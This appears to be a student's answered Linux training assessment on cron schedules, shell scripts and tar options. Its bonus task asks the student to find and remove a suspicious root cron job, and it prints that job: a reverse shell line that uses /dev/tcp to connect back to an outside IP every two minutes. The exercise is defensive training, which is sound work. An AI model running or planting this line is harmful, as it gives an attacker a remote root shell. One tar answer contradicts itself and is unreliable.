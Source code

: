 ## Reviewing Crons

- As a junior administrator at Rezifp Pharma Inc., you have been using `tar` and `cron` to schedule user and system-wide jobs for maintenance and security tasks.

- A recently instated company-wide mandate is requiring the all IT staff to take bi-monthly assessments based on their job's defined operational procedures. Today's assessment is based on `tar` and `cron`. 


### Instructions 

1. Answer the following `cron` assessment questions:

    - When will the following `cron` schedules run?

      - `*/10 * * * *`
        At every 10th minute.

    - What event is the following `cron` a minute away from?

      - `59 23 31 12 *` 
        New Years!

    - What do the following hypothetical `cron` likely do?

      - `0 22 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`
        - Run a script that adds up all the sales for the work day.
      - `@weekly /home/sysadmin/Scripts/auto-update.sh`
        - A weekly automated system update.

2. Answer the following `script` assessment questions:

    - What is a shebang?
        - It is the commented file declaration at the top of a shell script.

    - What two characters should come before the filename of a script?
        - `./`
    - Jane's script has user and group ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?
        - Run `chmod +x` on her file!

3. Answer the following `tar` assessment questions:

    - How does the `-x` option modify the `tar` command?
        - This option will let `tar` extract an archive!

    - If a directory has `ten` files and the following command is used in it, how many files are being archived?

      -  `tar cvvWf backups/archive.tar .`

        - Zero, because tar doesn’t compress!! But all files should be archived as they're all in the current directory!

    - What option prints the full file specification of files as you interact with them?
        - `-vv`
    - Why is the `-f` option used in almost every `tar` operation?
        - The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.
4. **Bonus**: You are tasked to look through the `cron` jobs within your current workstation to see if any suspicious or modified cron jobs exist. Remove the one that matches the following descriptions:

   - Run: `sudo crontab -e` to open the `root` `crontab`.

   - The cron you wanted to remove was:

   - `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`

